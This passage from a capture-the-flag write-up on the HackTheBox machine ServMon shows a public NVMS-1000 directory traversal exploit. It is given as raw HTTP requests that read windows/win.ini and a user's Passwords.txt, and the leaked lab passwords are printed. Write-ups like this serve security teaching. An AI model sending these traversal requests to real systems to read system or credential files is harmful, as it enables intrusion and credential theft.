 This note shows us that there is a `Passwords.txt` file on Nathan's desktop, this could be interesting in case we get access to an account with privileges to read files on his desktop.

### Users/Nathan/Notes to do.txt

```text
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

We can see that not all planned work on this machine has completed. This could be useful information during the next steps.

## HTTP

The open FTP server gave us some information, but no way into the machine yet.

Opening `http://10.10.10.184/` in our browser shows the `NVMS-1000` login page. We know from the `Notes to do.txt` file we found earlier that the password has been changed so we probably aren't able to use default credentials, admin:12345. We still try those, but receive an expected `User name or password error!`.

```bash
luc@kali:~/HTB/ServMon$ searchsploit nvms
...
NVMS 1000 - Directory Traversal | hardware/webapps/47774.txt
...
```

Luckily for us there is a known exploit for `NVMS 1000`, [47774 - NVMS 1000 - Directory Traversal](https://www.exploit-db.com/exploits/47774).

```http
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

We can confirm that the proof of concept works on the machine. This is where the note about Nathan's desktop containing a passwords.txt file becomes interesting.

```http
GET /../../../Users/Nathan/Desktop/Passwords.txt HTTP/1.1
Host: 10.10.10.184

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
